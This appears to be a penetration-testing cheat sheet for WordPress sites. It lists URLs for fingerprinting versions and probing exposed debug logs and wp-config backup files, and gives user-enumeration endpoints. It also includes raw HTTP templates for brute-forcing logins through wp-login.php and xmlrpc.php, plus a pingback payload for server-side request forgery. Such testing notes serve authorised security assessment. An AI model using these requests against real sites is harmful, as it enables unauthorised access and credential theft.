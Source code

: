 # WordPress

### How to Detect



If you visit `https://target.com` and see the source code, you will see the links to themes and plugins from WordPress. Or you can visit `https://target.com/wp-login.php`, it is the WordPress login admin page

1. Find the related CVE by checking the core, plugins, and theme version

* How to find the wordpress version

```
https://target.com/feed
https://target.com/?feed=rss2
```

* How to find the plugin version

```
https://target.com/wp-content/plugins/PLUGINNAME/readme.txt
https://target.com/wp-content/plugins/PLUGINNAME/readme.TXT
https://target.com/wp-content/plugins/PLUGINNAME/README.txt
https://target.com/wp-content/plugins/PLUGINNAME/README.TXT
```

> or change readme.txt to changelog.txt or readme.md

* How to find the theme version

```
https://target.com/wp-content/themes/THEMENAME/style.css
https://target.com/wp-content/themes/THEMENAME/readme.txt (If they have readme file)
```

If you found outdated core / plugins / themes, find the exploit at [https://wpscan.com](https://wpscan.com/)

2. Finding log files

```
http://target.com/wp-content/debug.log
```

3. Finding backup file wp-config

```
http://target.com/.wp-config.php.swp
http://target.com/wp-config.inc
http://target.com/wp-config.old
http://target.com/wp-config.txt
http://target.com/wp-config.html
http://target.com/wp-config.php.bak
http://target.com/wp-config.php.dist
http://target.com/wp-config.php.inc
http://target.com/wp-config.php.old
http://target.com/wp-config.php.save
http://target.com/wp-config.php.swp
http://target.com/wp-config.php.txt
http://target.com/wp-config.php.zip
http://target.com/wp-config.php.html
http://target.com/wp-config.php~
```

4. Get the username on the website

```
http://target.com/?author=1
```

or

```
http://target.com/wp-json/wp/v2/users
http://target.com/?rest_route=/wp/v2/users
```

5. Bruteforce

```
POST /wp-login.php HTTP/1.1
Host: target.com

log=admin&pwd=BRUTEFORCE_IN_HERE&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget.com%2Fwp-admin%2F&testcookie=1
```

or

```
POST /xmlrpc.php HTTP/1.1
Host: target.com

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>admin</value></param> 
<param><value>BRUTEFORCE_IN_HERE</value></param> 
</params> 
</methodCall>
```

6. XSPA in wordpress

```
POST /xmlrpc.php HTTP/1.1
Host: target.com

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://yourip:port</string></value>
</param><param>
<value>
<string>https://target.com></string>
</value>
</param></params>
</methodCall>
```

7. Register enabled

```
http://example.com/wp-login.php?action=register
```

if SSL peer certificate or SSH remote key was not OK  use **`--disable-tls-checks`**&#x20;

```bash
wpscan  --url https://ex.com/ --disable-tls-checks
```
